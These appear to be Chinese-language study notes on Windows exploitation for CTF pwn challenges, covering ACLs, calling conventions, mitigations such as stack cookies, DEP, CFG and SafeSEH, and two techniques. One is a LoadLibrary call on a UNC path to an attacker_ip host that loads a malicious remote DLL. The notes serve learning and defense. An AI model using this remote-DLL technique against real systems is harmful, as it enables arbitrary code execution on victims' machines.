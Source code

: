 # windows權限管理
Windows下，每個用戶的標識被稱為SID，而對象(文件、設備、內存區等)的權限管理由**安全性描述項(Security Descriptor, SD)**控制。

安全性描述項(Security Descriptor, SD)中包含owner、grout的SID、Discretionary ACL和system ACL。

**ACL(Access Control List, 存取控制表)**是用來控制對象訪問存取權限的列表，其中包含多個**ACE(Access Control Entry, 存取控制條目)**，每個ACE描述了一個用戶對於當前對象的權限。

在windows中，用戶可以使用`icacls`命令修改一個對象的ACL。
icacls採用微軟制定的**SDDL(Security Descriptor Definition Language,安全描述定義語言)**

通過`icacls`查看文件權限
```
PS C:\Users\islab\Desktop> icacls flag.txt
flag.txt NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         DESKTOP-3O0PPJI\islab:(I)(F)

已順利處理 1 個檔案; 0 個檔案處理失敗
```

可以看到有三個SID對flag.txt有完全存取的權限，嘗試刪除其中一個對於flag.txt的存取權限:
```
PS C:\Users\islab\Desktop> icacls flag.txt /inheritance:d
已處理的檔案: flag.txt
已順利處理 1 個檔案; 0 個檔案處理失敗

PS C:\Users\islab\Desktop> icacls flag.txt /remove islab
已處理的檔案: flag.txt
已順利處理 1 個檔案; 0 個檔案處理失敗

PS C:\Users\islab\Desktop> icacls flag.txt
flag.txt NT AUTHORITY\SYSTEM:(F)
         BUILTIN\Administrators:(F)

已順利處理 1 個檔案; 0 個檔案處理失敗
```

在修改文件的ACL時，若修改的ACE項是繼承的，要先去關閉其繼承屬性。ACL的繼承是windows特有的一種機制，若一個文件啟用的ACL繼承，則其ACL會繼承其父對象(本例中為flag.txt所在的目錄)ACL中的ACE。

# windows的呼叫約定(calling convention)
32bit的windows通常採用**__stdcall**的呼叫約定，參數由右到左的順序逐一被放入stack中，並且在呼叫完成後，由被呼叫的函式來清理這些參數，函數的返回值會放在eax中。    
64bit的windows通常採用**x64**的呼叫約定，其中前4個參數會被分別放入rcx、rdx、r8、r9中，更多的參數會存在stack上，返回值放在rax中。在這個呼叫約定下rax、rcx、rdx、r8、r9、r10、r11由呼叫方保存，rbx、rbp、rdi、rsi、rsp、r12、r13、r14、r15由被呼叫方保存。

# windows的漏洞緩解機制
## stack cookie    
windows與linux的stack cookie有不同的實現。例如:
```c
#include <cstdio>
#include <cstdlib>

int main(int argc, char* argv[]) {
    char name[100];

    printf("Name?: ");
    scanf("%s", name);
    printf("Hello, %s\n", name);
    return 0;
}
```

經過編譯器橫產生的組語如下:
```

```
可以看到，__security_cookie就是windows的stack cookie。注意，程序在將stack cookie放入stack前，程序還將其與rsp進行了XOR，這在某種程度上增強了保護程度，攻擊者需要同時知道當前stack top address和stack cookie才能夠進行stack overflow漏洞的利用。

## DEP
Data Execution Prevention，資料執行保護。與linux下的保護機制NX類似，將資料區的存保護屬性設為可讀可寫不可執行。這兩個機制都是為了防止攻擊者利用資料區域放置惡意程式碼，從而達到任意程式碼執行。

## CFG
Control Flow Guard, 控制流保護。是windows支持的一種比較新的保護機制。被保護的間接呼叫如下，每次進行間接呼叫前都會由**__guard_dispatch_icall_fptr**函式對function pointer進行檢查。在function pointer被修改到非法address時，程序會被異常終止。
```

```

## SEHOP、SafeSEH
SEH是windows底下特有的一種異常處理機制。在32bit的windows下，SEH的資料是一個單向link list且存在stack上。由於這些資料中包含SEH Handler的address，覆蓋SEH成為了攻擊早期windows以及其程序的常利用技巧，因此微軟在新版window中引入了SEHOP和SafeSEH這兩個緩解措施。SEHOP會檢測SEH link list的末尾是不是指向一個固定的SEH Handler，否則異常終止程序。SafeSEH會檢測當前使用的SEH Handler是否指向當前模塊的一個有效地址，否則異常終止程序。

## Heap Randomization
LFH(low-fragmentaion Heap)的隨機化。例如:
```c
#include <cstdio>
#include <cstdlib>
#include <Windows.h>

#define HALLOC(x) (HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (x)))

int main() {
    for(int i = 0; i < 20; i++) {
        printf("Alloc: %p\n", HALLOC(0x30));
    }
    return 0;
}
```
程序結果如下:
```

```
一般的內存分配器對於連續的申請會返回連續的地址，不過可以看到，分配到的地址定不是連續的，而且沒有規律可言。在LFH開啟的情況下，heap的分配是隨機的，使得攻擊者的利用更為困難。

# windows的PWN技巧
## 從heap上洩漏stack sddress
通常情況下，heap上是不會有stack上地址的，因為stack上的資料一般比heap上的資料存在時間更短。不過在windows下有一種特殊情況，導致heap上存有stack address: 在CRT初始化的過程中，由於使用了未初始化內存，導致一部分包含stack address的內容被複製到heap上。於是可以從heap上找到stack address，然後修改stack資料。

## LoadLibrary UNC 下載模塊
由於一般的windows Pwnable沒有辦法直接執行system彈shell，因此需要使用各種各樣的shellcode來完成想要的操作，但是這樣做相當麻煩，在測試shellcode的時候可能發生本地與遠端環境不同等情況，如果能呼叫LoadLibrary，工作量就能大大減輕。    
LoadLibrary是windows下用來下載DLL的function，由於其支持UNC Path，因此可以呼叫**LoadLibrary("\\attacker_ip\malicious.dll")**，讓程式下載遠端伺服器上攻擊者提供的DLL，從而達到執行任意程式執行。這樣的攻擊方式比執行shellcode更穩定。    
因此，win10中引入了**Disable Remote Image Loading**機制，若程式執行時開啟此項緩解措施，則無法使用UNC PATH下載遠端DLL。